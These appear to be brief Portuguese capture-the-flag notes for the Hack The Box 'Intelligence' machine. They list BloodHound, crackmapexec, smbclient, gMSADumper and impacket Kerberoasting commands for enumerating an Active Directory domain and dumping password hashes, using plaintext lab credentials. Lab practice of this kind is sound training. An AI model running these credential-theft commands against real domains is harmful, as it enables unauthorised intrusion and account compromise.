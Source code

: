 ### Enumerar o domínio

    python3.9 bloodhound.py -ns 10.10.10.248 -d intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' -dc intelligence.htb -c all

### Enumerar shares

    crackmapexec smb 10.10.10.248 -u Ted.Graves -p Mr.Teddy --shares
    
    smbclient -L //10.10.10.248/ -U intelligence.htb/Ted.Graves
    
### Obter hashes de senha

#### Account services

(Esse foi o que funcionou)
    
    python3.10 gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
    
    impacket-GetUserSPNs -request -dc-ip 10.10.10.248 intelligence.htb/Ted.Graves:Mr.Teddy

![qownnotes-media-QReoeZ](../../../media/qownnotes-media-QReoeZ.png)

#### Normal users

    

